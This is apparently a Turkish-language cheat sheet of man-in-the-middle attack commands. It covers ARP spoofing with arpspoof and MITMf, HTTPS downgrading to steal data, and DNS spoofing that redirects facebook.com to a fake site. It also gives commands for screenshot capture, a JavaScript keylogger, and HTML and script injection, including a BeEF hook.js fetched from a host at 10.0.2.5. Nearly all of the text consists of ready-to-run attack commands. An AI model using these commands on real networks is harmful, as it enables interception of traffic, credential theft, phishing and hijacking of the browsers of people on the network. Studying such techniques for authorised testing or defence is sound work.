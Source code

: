 ## Man In The Middle

`echo 1 > /proc/sys/net/ipv4/ip_forward` yönlendirmesini yapmazsak hedek internete çıkamaz bize gelen verileri modeme aktarıyoruz.

`arpspoof -i <interface> -t <target> <modem_IP>` Hedefimize modemin MAC adresi ile benim MAC adresim aynı dedik.

`arpspoof -i <interface> -t <modem_IP> <target>` Modeme hedefin MAC adresi ile benim MAC adresim aynı dedik.

Hedefimizin trafiğini kendi üstümüzden geçirdik. ARP tablolarından görülebilir. linuxlarda ARP tablosunu görmek için `arp` Windowslarda ise `arp -a` komutu kullanılır.

### MITMF Kullanarak Man In The Middle Attack

`mitmf --arp --spoof --gateway <gateway_modem_IP> --target <target> -i <interface>`

> ex: `mitmf --arp --spoof --gatewat 192.168.1.1 --target 192.168.1.35 -i wlp3s0`

HTTPS Siteler için SSLStrip kullanılarak HTTPS kullanan siteleri HTTP ile açarak verileri o şekilde çalabiliriz yani HTTPS i HTTP ye indirgeyerek eğer arpspoof ile manüel olarak MITM yaptı isek HTTPS den HTTP ye indirgeme işleminide manüel olarak yapmamamız gerekmektedir. Eğer MITMF kullandı isek bunu MITMF yazılımı otamatik olarak yapar extra komut girmemize gerek yoktur.

**HSTS:** Bazı websiteleri HSTS sistemi kullanır bu sistem tarayıcılara HTTP ile değilde HTTPS ile bağlanmaları gerektiğini söyler ve HTTP ile bağlanamayız.

`File "/usr/share/mitmf/core/proxyplugins.py", line 112, in hook a = f(*args)`  Hatası alırsan şu komutu çalıştır, `pip install Twisted==15.5.0` (Twisted ın 15.5.0 sürümünü yükler python için)

#### MITMF DNS Attack (DNS Spoofing)

`mitmf --arp --spoof --gateway <modem_IP> --target <target> -i <interface> --dns`

> ex: `mitmf --arp --spoof --gateway <modem_IP> --target <target> -i wlan0 --dns`

/etc/mitmf/mitmf.conf dosyasını yapılandıracağız.

[[[A]]] yazan yerin altında dns yönlendirme işlemini yapabiliriz.

`*.facebook.com=192.168.1.45` facebook.com a gitmek isteyen hedefi 192.168.1.45 IP adresindeki cihaza 
yönlendirir cihazda web server çalışıyor ve üzerinde sahte bir web sitesi barınıyor olablir.

#### MITMF Screenshot

`mitmf --arp --spoof --gateway <modem_IP> --target <target> -i <interface> --screen` /var/log/mitmf dizinine kaydeder.

#### MITMF Keylogger

`mitmf --arp --spoof --gateway <modem_IP> --target <target> -i <interface> --jskeylogger` 

#### MITMF JavaSctipt Injection

`mitmf --arp --spoof --gateway <modem_IP> --target <target> -i <interface> --inject --js-payload 
"alert("HACKED");"` 

> `mitmf --arp --spoof --gateway <modem_IP> --target <target> -i <interface> --inject --js-url 
> http://10.0.2.5:3000/hook.js` man in the middle konumuna geçerek javascript enjekte ediyoruz hedefe ve 
> enjekte ettiğimiz dosya beef in oluşturmuş olduğu olta (hook) dosyası beef bağlantısı kazanmak için mükemmel 
> bir yöntem!

#### MITMF HTML File Inject

`mitmf --arp --spoof --gateway <modem_IP> --target <target> -i <interface> --inject --html-file /file.html` 

